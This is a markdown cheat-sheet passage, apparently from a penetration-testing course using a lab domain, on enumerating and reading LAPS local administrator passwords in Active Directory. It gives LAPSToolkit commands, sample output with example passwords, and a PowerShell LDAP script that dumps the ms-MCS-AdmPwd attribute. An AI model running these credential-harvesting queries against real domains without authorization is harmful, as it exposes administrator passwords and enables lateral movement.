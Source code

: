 
### 🎯 **LAPS Extended Rights Enumeration**
```powershell
# Find users/groups with extended rights (including LAPS password read)
Find-AdmPwdExtendedRights

# Example output:
ComputerName                Identity                    Reason
------------                --------                    ------
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins   Delegated
SQL01.INLANEFREIGHT.LOCAL   INLANEFREIGHT\Domain Admins Delegated
SQL01.INLANEFREIGHT.LOCAL   INLANEFREIGHT\LAPS Admins   Delegated
WS01.INLANEFREIGHT.LOCAL    INLANEFREIGHT\Domain Admins Delegated
WS01.INLANEFREIGHT.LOCAL    INLANEFREIGHT\LAPS Admins   Delegated
```

### 💎 **Retrieving LAPS Passwords**
```powershell
# Attempt to read LAPS passwords (requires appropriate permissions)
Get-LAPSComputers

# Example output with sensitive data:
ComputerName                Password       Expiration
------------                --------       ----------
DC01.INLANEFREIGHT.LOCAL    6DZ[+A/[]19d$F 08/26/2020 23:29:45
EXCHG01.INLANEFREIGHT.LOCAL oj+2A+[hHMMtj, 09/26/2020 00:51:30
SQL01.INLANEFREIGHT.LOCAL   9G#f;p41dcAe,s 09/26/2020 00:30:09
WS01.INLANEFREIGHT.LOCAL    TCaG-F)3No;l8C 09/26/2020 00:46:04
```

### 🔧 **Manual LAPS Enumeration (Without LAPSToolkit)**
```powershell
# Check if LAPS is installed on current machine
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions\{D76B9641-3288-4f75-942D-087DE603E3EA}" -ErrorAction SilentlyContinue

# Query LDAP for LAPS-enabled computers
$Searcher = New-Object System.DirectoryServices.DirectorySearcher
$Searcher.Filter = "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))"
$Searcher.PropertiesToLoad.Add("ms-MCS-AdmPwd") | Out-Null
$Searcher.PropertiesToLoad.Add("ms-MCS-AdmPwdExpirationTime") | Out-Null
$Searcher.PropertiesToLoad.Add("cn") | Out-Null

try {
    $Results = $Searcher.FindAll()
    foreach ($Computer in $Results) {
        $ComputerName = $Computer.Properties["cn"][0]
        $Password = $Computer.Properties["ms-MCS-AdmPwd"][0]
        $Expiration = $Computer.Properties["ms-MCS-AdmPwdExpirationTime"][0]
        
        Write-Host "Computer: $ComputerName" -ForegroundColor Green
        Write-Host "Password: $Password" -ForegroundColor Yellow
        Write-Host "Expires: $([DateTime]::FromFileTime($Expiration))" -ForegroundColor Cyan
        Write-Host "---"
    }
}
catch {
    Write-Host "[-] No LAPS access or LAPS not deployed" -ForegroundColor Red
}
```
